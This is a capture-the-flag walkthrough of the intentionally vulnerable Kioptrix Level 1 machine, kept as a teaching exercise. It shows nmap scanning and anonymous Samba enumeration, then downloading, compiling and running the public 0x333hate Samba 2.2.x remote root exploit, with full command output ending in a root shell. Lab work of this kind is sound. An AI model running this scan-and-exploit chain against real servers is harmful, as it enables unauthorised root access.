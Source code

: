 
Kioptrix is another set of virtual machines that are intended to be hacked into. As of this writing there are currently four Kioptrix challenges. Each one increases in difficulty and is a good start for someone new to penetration testing. Towards the end of last April, I started playing around with it and documented the steps to exploit it. Kioptrix 1 is geared towards the beginner, and is one of the easiest challenges out there.

<!--more-->

The Kioptrix virtual machines can be downloaded from [http://www.kioptrix.com/blog/?page_id=135](http://www.kioptrix.com/blog/?page_id=135)

I identified the IP address of the virtual machine using netdiscover and launched a port scan against it.

```
# nmap -sS -T4 -A 192.168.1.144
 
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-23 20:26 EDT
Nmap scan report for 192.168.1.144
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE              VERSION
22/tcp   open  ssh                  OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
| 1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
80/tcp   open  http                 Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind (rpcbind V2) 2 (rpc #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn          Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/http             Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26 09:32:06
|_Not valid after:  2010-09-26 09:32:06
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_sslv2: server still supports SSLv2
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
1024/tcp open  status (status V1)   1 (rpc #100024)
MAC Address: 00:0C:29:46:F7:8C (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop
 
Host script results:
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown>
 
TRACEROUTE
HOP RTT     ADDRESS
1   0.48 ms 192.168.1.144
```

nmap found a webserver, so I pointed my browser to http://192.168.1.144 and found an Apache test page. I fired up nikto and DirBuster in the background to scan the website for any vulnerabilities and hidden directories. In the meantime, I decided to look into the open Samba port.
nmap didn't print out the Samba version, so I decided to probe it a bit. I used nmblookup and smbclient

```
# nmblookup -A 192.168.1.144
Looking up status of 192.168.1.144
 KIOPTRIX        <00> -         B <ACTIVE> 
 KIOPTRIX        <03> -         B <ACTIVE> 
 KIOPTRIX        <20> -         B <ACTIVE> 
 ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
 MYGROUP         <00> - <GROUP> B <ACTIVE> 
 MYGROUP         <1d> -         B <ACTIVE> 
 MYGROUP         <1e> - <GROUP> B <ACTIVE> 
 
 MAC Address = 00-00-00-00-00-00
 
# smbclient -L //KIOPTRIX -I 192.168.1.144
Enter root's password: 
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
 
 Sharename       Type      Comment
 ---------       ----      -------
cli_rpc_pipe_open_noauth: rpc_pipe_bind for pipe \srvsvc failed with error ERRnosupport
 IPC$            IPC       IPC Service (Samba Server)
 ADMIN$          Disk      IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
 
 Server               Comment
 ---------            -------
 KIOPTRIX             Samba Server
 
 Workgroup            Master
 ---------            -------
 MYGROUP              KIOPTRIX
```

I was able to get a listing of the shares without a password. Using smbclient I identified that the server was running Samba 2.2.1a. I headed over to Google and searched for Samba 2.2.1 exploits. This revealed a SANS [paper](http://pen-testing.sans.org/resources/papers/gcih/0x333hatec-samba-remote-root-exploit-102967) about a Samba exploit called 0x333hate.c. A Google search for 0x333hate.c yielded a copy of the exploit, hosted at [SecurityFocus.com](http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c)

I downloaded the file and compiled it.

```
# wget http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c
--2012-04-23 22:34:02--  http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c
Resolving downloads.securityfocus.com... 143.127.139.111
Connecting to downloads.securityfocus.com|143.127.139.111|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6514 (6.4K) [text/plain]
Saving to: `0x333hate.c'
 
100%[=================================================================================================================>] 6,514       --.-K/s   in 0.1s    
 
2012-04-23 22:34:03 (62.5 KB/s) - `0x333hate.c' saved [6514/6514]
 
 
# gcc 0x333hate.c 
0x333hate.c: In function ‘usage’:
0x333hate.c:91: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘exploit’:
0x333hate.c:126: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:130: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:134: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:139: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:142: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘owned’:
0x333hate.c:201: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:210: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:220: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘main’:
0x333hate.c:252: warning: format ‘%x’ expects type ‘unsigned int’, but argument 3 has type ‘long unsigned int’
```

Some warning messages, but no errors. I ran the exploit to see what would happen:

```
# ./a.out 
 
 [~] 0x333hate => samba 2.2.x remote root exploit [~]
 [~]        coded by c0wboy ~ www.0x333.org       [~]
 
 Usage : ./a.out [-t target] [-p port] [-h]
 
  -t target to attack
  -p samba port (default 139)
  -h display this help
```

Pretty simple, takes only one argument which is the IP address of the target. I tried it again and it gave me a root shell instantly:

```
# ./a.out -t 192.168.1.144
 
 [~] 0x333hate => samba 2.2.x remote root exploit [~]
 [~]        coded by c0wboy ~ www.0x333.org       [~]
 
 [-] connecting to 192.168.1.144:139
 [-] stating bruteforce
 
 [-] testing 0xbfffffff
 [-] testing 0xbffffdff
 [-] testing 0xbffffbff
 [-] testing 0xbffff9ff
 [-] testing 0xbffff7ff
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
```

At this point the game was over. I explored the system a little bit and found a congratulatory message from the creator:

```
cat mbox
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
 by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
 for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: RO
 
If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
```

This challenge was basically just a scan and exploit against a vulnerable target. Although that seems easy, that's exactly how a lot of servers are compromised. It's not too difficult to find servers running certain vulnerable services and exploits that target them. 

 
